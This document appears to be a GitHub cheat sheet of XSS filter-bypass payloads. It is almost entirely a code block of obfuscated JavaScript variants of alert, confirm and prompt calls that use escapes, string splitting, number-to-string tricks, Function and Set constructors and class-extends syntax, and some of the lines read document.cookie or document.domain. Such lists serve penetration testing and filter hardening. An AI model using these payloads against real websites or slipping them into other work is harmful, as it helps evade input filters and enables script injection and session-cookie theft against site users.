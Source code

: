 ### Filter Bypass Alert Obfuscation
 ```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)

confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)

self[`aler`%2b`t`]`1`
'new Function`al\ert\`1\``'
'new Function`pro\mpt\`1\``'

alert(document['cookie']) 
with(document)alert(cookie) 
eval('ale'+'rt(1)')window['alert'](0)
parent['alert'](1)
self['alert'](2)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[12].forEach(alert);
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;

alert.call(null, document.domain);
[document.domain].forEach(alert);
alert.apply(null, [document.domain]);
alert.bind()(document.domain);
alert(this['document']['domain']);
(new Map()).set(1, document.domain).forEach(alert);

[class extends[alert````]{}]
```${``[class extends[alert``]{}]}```
[class extends[alert````]{}]
throw new class extends Function{}('alert(1)')``
x=new class extends Function{}('alert(1)'); x=new x;
new class extends alert(1){}
new class extends class extends class extends class extends alert(1){}{}{}{}
    
alert?.()
confirm?.()
prompt?.()
 ```